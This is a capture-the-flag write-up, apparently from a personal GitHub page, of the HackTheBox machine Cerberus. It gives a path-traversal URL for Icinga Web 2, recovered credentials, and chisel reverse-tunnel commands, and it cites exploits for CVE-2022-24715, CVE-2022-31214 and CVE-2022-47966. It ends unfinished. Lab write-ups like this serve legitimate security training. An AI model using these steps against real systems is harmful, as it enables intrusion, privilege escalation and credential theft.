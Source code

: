 <h3> Cerberus HackTheBox </h3>

### Difficulty = Hard

### IP Address = 10.10.11.205

#### This is my first hard rated hackthebox machine and its a windows box xD

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/227714366-b69f0657-52ca-4fc5-b305-2f3da790d02d.png)

I added the domain name to my `/etc/hosts` file

```
➜  ~ cat /etc/hosts | grep cer
10.10.11.205    icinga.cerberus.local cerberus.local
➜  ~ 
```

After navigating to the web server I got this login page
![image](https://user-images.githubusercontent.com/127159644/227714514-c5dd3dc0-be36-4dc9-b8dc-03615a144e83.png)

Since weak cred doesn't work (lets face it this is an hard htb box 😂) I decided to check for exploits

And i found a path transversal exploit

Here's the resource [Exploit](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

To get the `/etc/passwd` file according to the exploit you goto

```
Vuln: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227714671-da582c0f-4cab-4f48-abeb-5e79c1b2839a.png)

And now if you read the resource you will see that authenticated user can then gain RCE via ssh key

First on the normal login page looking at the source code shows this
![image](https://user-images.githubusercontent.com/127159644/227714915-e0a99cbb-6f70-4034-a54a-df36067011a4.png)

```
file:///etc/icingaweb2/ssh/nima
```

It shows us the path to the `Icinga Web 2` 

That is useful cause we want to enumerate creds

So i asked chatgpt and got the answer
![image](https://user-images.githubusercontent.com/127159644/227715278-9ee180a5-8746-494e-ac21-72b053213df1.png)

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227715327-c72c1305-3955-422e-8e98-8728ed152669.png)

```
Username: matthew
Password: IcingaWebPassword2023
```

Using that to login works
![image](https://user-images.githubusercontent.com/127159644/227715398-130e54c1-1494-497b-8c22-f55e8dae793f.png)

From here we can get RCE using the same resource that exploited the path transversal

#### Exploitation: Remote Code Execution (CVE-2022-24715)

Using this exploit scrpit [Exploit](https://github.com/JacobEbben/CVE-2022-24715/blob/main/exploit.py)

I got shell
![image](https://user-images.githubusercontent.com/127159644/227747439-4c75a59c-8f97-4b7c-a2c7-59662defba6b.png)

Now this is weird cause cerberus is a windows box and not a linux box 

That means we're in some sort of container 🤔

Next thing is to get root and checking for suid binary shows this
![image](https://user-images.githubusercontent.com/127159644/227747986-0d824e24-6530-4251-8c57-05c5c6750d8a.png)

```
/usr/bin/firejail
```

So i searched for exploit and found this [Resource](https://www.openwall.com/lists/oss-security/2022/06/08/10)

There's an exploit script for (CVE-2022-31214) [Exploit](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py)

I transferred it to the target and run it, my privilege was escalated to root
![image](https://user-images.githubusercontent.com/127159644/227748283-8094b1ee-e287-4a56-8070-63a9f633fe1d.png)

After getting root i decided to find a way to escape this container

THen on running linpeas.sh i got this
![image](https://user-images.githubusercontent.com/127159644/227748494-a022052d-65dd-4081-81e6-570bb807c7a2.png)

Cache Cred is True in this joined domain host

So i asked chatgpt again and it says the path where the cred and information of a windows joined domain host is located at `/var/lib/sss/db`

After checking i saw that `cache_cerberus.local.ldb` has an hash

Then i cracked it and it belongs to user `matthew`
![image](https://user-images.githubusercontent.com/127159644/227749264-b16beab8-9eeb-4d54-9a6a-422541ee7a30.png)

But where do we login from?

Now i want to scan the whole host to know what ports are hosts are up

Using nmap compiled binary i scanned the host and figured that winrm is open
![image](https://user-images.githubusercontent.com/127159644/227749590-c14b2e92-50ec-4997-8dd2-333d727ff508.png)

With this i can now port forward using chisel to my host then login to the winrm as user matthew
![image](https://user-images.githubusercontent.com/127159644/227749695-19a8d29d-d16b-4dbf-b6f1-6f8597764201.png)

So i logged in as user matthew to the winrm service
![image](https://user-images.githubusercontent.com/127159644/227749766-ab9d6c82-c92d-4910-bdef-5d51215b3388.png)

#### Privilege Escalation

Checking `Program Files (x86)` I got `ManageEngine\ADSelfService Plus` 
![image](https://user-images.githubusercontent.com/127159644/227749914-b740b10e-0ff3-4909-86fe-8b5cbd576056.png)

Searching for exploit leads here [Resource](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html)

I'll port forward again using chisel in order to exploit the service running internally
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/19f54578-066a-4a1e-bb04-3fd856b7eb1b)
```
Attacker: chisel server -p 8080
Target: .\chisel.exe client 10.10.14.175:8080 R:9000:socks
```

Since the service runs on port 9251 I port forwarded it to my host

From scanning my host I can tell that it indeed runs on port 9251
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/76525791-733e-4d6c-92c0-4cd562d6d6b2)

Back to exploitation

Loading up metasploit shows the it requires some values
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9efec2b-27e1-4066-9eec-52bc1f5a49c0)

Moving over to the web service shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aeec12c6-618c-4266-b966-f9a7bd55fc90)

Since it's trying to resolve to that let's add it to our `/etc/hosts` file `dc.cerberus.local`

It wasn't able to resolve so i was stucked here too bad 😞
